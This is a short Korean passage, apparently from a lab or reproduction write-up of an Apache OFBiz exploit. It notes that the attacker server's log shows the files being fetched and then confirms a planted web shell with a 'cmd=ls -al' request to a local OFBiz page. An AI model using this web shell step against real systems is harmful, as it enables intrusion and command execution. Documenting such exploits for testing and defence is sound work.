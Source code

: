 위 요청이 정상적으로 처리 되었으면, 공격자 서버 로그에서 `test.xml`, `test.csv` 파일에 대한 접근 로그를 확인할 수 있습니다.

![images](./images/image-011.png)

## 웹쉘 확인

Apache OFBiz 애플리케이션에 웹 쉘이 저장 되었는지, 아래의 URL 요청을 이용하여 확인합니다.

```xml
https://localhost:8443/accounting/index.jsp?cmd=ls -al
```

![images](./images/image-012.png)
